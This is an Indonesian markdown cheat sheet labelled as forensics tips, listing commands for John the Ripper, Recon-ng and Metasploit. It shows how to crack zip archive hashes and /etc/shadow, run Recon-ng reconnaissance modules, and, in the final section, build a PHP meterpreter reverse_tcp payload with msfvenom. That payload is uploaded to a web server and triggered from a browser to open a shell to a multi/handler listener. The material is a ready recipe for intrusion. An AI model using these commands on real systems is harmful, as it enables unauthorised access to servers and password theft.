 # Trik & Tips Forensic
> Disusun oleh Hardiyanto

### Daftar Isi
	* [John the Ripper](#john-the-ripper)
	* [Recon-ng](#reconng)
	* [Msfvenom & Msfconsole](#msfvenom-msfconsole)

#### John the Ripper

``
$ zip2john test.zip
``
``
$ zip2john test.zip > hash.txt
``
``
$ john -format:zip hash.txt
``
``
$ john hash.txt
``
``
john /etc/shadow
``

#### Recon-ng

Recon-Web

Required
```
pip install flask
pip install dicttoxml
pip install unicodecsv
pip install xlsxwriter
```

```
marketplace install all
```

Lihat daftar list
```
keys list
```

Menambahkan api
```
keys add shodan_api YOUR_API
```

Menambahkan workspace
```
workspaces create tes
```

Cek Daftar workspace
```
workspaces list
```

Pindah workspace 
```
workspaces load NAMA_WORKSPACE
```

Menambahkan domain
```
db insert domains
```

Melihat daftar domain
```
show domains
```

Melihat Daftar Module
```
modules search
```

Install Module
```
marketplace install NAMA_MODULE
```

Load module
```
modules load NAMA_MODULE
```
Module Shodan
```
 recon/locations-pushpins/shodan
```

Module host
```
recon/hosts-hosts/resolve 
recon/hosts-hosts/ipstack
```
Module domains-contacts
```
recon/domains-contacts/whois_pocs
recon/domains-contacts/pgp_search
```
Module domains-hosts
```
recon/domains-hosts/bing_domain_web 
recon/domains-hosts/brute_hosts
```
Module Interesting
```
discovery/info_disclosure/interesting_files
```

Module Web
```
recon/domains-hosts/builtwith
recon/domains-hosts/google_site_web 
```

Record
```
script record PATH
```
```
script record stop
```
Menjalankan Record
```
recon-ng -r PATH
```
Menyimpan output menggunakan spool
```
spool start
```
```
spool stop
```

#### Msfvenom & Msfconsole

File Upload
```
msfvenom -p php/meterpreter/reverse_tcp lhost=IP lport=4444 raw
```
Masuk Msfconsole
```
msfconsole
```
```
use exploit/multi/handler
```
```
set payload php/meterpreter/reverse_tcp
```
```
set lhost IP
```
```
set lport 4444
```
```
exploit
```

Masuk Browser jalankan file php yg berhasil di upload tadi di URL
